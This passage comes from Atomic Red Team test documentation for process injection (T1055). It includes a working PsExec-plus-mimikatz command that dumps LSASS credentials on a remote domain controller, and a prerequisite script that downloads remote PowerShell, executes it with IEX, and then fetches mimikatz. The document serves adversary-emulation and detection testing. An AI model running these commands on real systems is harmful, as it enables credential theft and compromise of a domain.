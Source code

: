 ```powershell
New-Item -Type Directory (split-path "#{txt_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055/src/x64/T1055-macrocode.txt" -OutFile "#{txt_path}" -UseBasicParsing
```




<br/>
<br/>

## Atomic Test #2 - Remote Process Injection in LSASS via mimikatz
Use mimikatz to remotely (via psexec) dump LSASS process content for RID 500 via code injection (new thread).
Especially useful against domain controllers in Active Directory environments.
It must be executed in the context of a user who is privileged on remote `machine`.

The effect of `/inject` is explained in <https://blog.3or.de/mimikatz-deep-dive-on-lsadumplsa-patch-and-inject.html>

**Supported Platforms:** Windows


**auto_generated_guid:** 3203ad24-168e-4bec-be36-f79b13ef8a83





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| machine | machine to target (via psexec) | string | DC1|
| mimikatz_path | Mimikatz windows executable | path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|
| psexec_path | Path to PsExec | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;PsExec.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{psexec_path}" /accepteula \\#{machine} -c #{mimikatz_path} "lsadump::lsa /inject /id:500" "exit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases -UseBasicParsing | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```